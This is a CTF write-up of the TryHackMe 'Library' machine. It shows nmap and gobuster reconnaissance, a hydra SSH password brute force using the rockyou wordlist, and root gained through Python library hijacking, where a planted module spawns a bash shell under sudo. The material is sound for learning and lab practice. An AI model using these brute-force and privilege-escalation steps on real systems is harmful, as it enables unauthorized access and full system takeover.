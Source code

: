 ```yaml
---
title: "THM | Library CTF Writeup"
author: 1
date: 2022-03-08 00:34:00 +0800
categories: [Writeups]
tags: [TryHackMe, THM, Python Library Hijacking]
author: me
comments: false
---
```


**Library** is a TryHackMe room boot2root machine for FIT and bsides guatemala CTF.

Link: [https://tryhackme.com/room/bsidesgtlibrary](https://tryhackme.com/room/bsidesgtlibrary)

## Recon Phase

### nmap

```bash
root@mirai:~# nmap -T4 -sC -sV -p- --min-rate=1000 10.10.85.187 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-03-08 15:55 HKT
Nmap scan report for 10.10.85.187
Host is up (0.24s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.22 seconds
```

Since port 80 is open, lets do some passive recon on the website.

<!-- ![](/static/img/thm-library-writeup/user1.png)
![](/static/img/thm-library-writeup/user2.png) -->

I listed down all the usernames I found in the website that is important for later use.
1. meliodas
2. root
3. www-data
4. Anonymous

Since there is no other webpages because menu bars is not clickable, lets scan for subdomains.

### gobuster

```bash
root@mirai:~# gobuster dir -u 10.10.85.187 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,html --timeout 50s -t 170 -f
===============================================================
2022/03/08 01:36:48 Starting gobuster in directory enumeration mode
===============================================================
/images/              (Status: 200) [Size: 1640]
/icons/               (Status: 403) [Size: 292]
/index.html           (Status: 200) [Size: 5439]
/robots.txt           (Status: 200) [Size: 33]
```
Opening the `robots.txt` on the browser gives the following text.

![](/assets/img/thm-library-writeup/rockyou.png){: .shadow }

"rockyou"??? Seems familiar because there's this famous wordlist named `rockyou.txt`, maybe its a hint for us to bruteforce something?

Lets try to bruteforce the port 22 (SSH) with hydra!

### hydra

```bash
hydra -L meliodas users -P /usr/share/wordlists/rockyou.txt ssh://10.10.85.187 -t 4
```

![](/assets/img/thm-library-writeup/hydra.png){: .shadow }


Successfully cracked the credential with a password of `iloveyou1`

Login to the ssh and get the `user.txt` flag!

![](/assets/img/thm-library-writeup/user3.png){: .shadow }

---

## Privilege Escalation: meliodas --> root

### python library hijacking 
As you can see when running `sudo -l` we can run the file `/home/meliodas/bak.py` which was owned by `root`.

![](/assets/img/thm-library-writeup/sudo.png)

Lets analyze the code since we cannot modify the python file.

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

The code seems not vunerable to any code injection. So, As I am searching python `zipfile` module exploits in google, I came across to this blog post [privilege escalation via python library hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/).

Let's replicate what he did in the blog post.

- Create a file `os.py` in the same directory as `bak.py` and put the contents below.
	```python
	import pty
	pty.spawn('/bin/bash')
	```
- Run this command `sudo /usr/bin/python3 /home/meliodas/bak.py`
	![](/assets/img/thm-library-writeup/os.png){: .shadow }

It doesnt work with the python `os` library, lets repeat the same steps with `zipfile` library.

And we are now root!

![](/assets/img/thm-library-writeup/root.png){: .shadow }

## Easiest way to gain root

1. Delete the `bak.py` file
2. Create a new one and put the contents below
	```python
	import pty
	pty.spawn('/bin/bash')
	```
	
3. and run it

	![](/assets/img/thm-library-writeup/root2.png){: .shadow }

Thank you!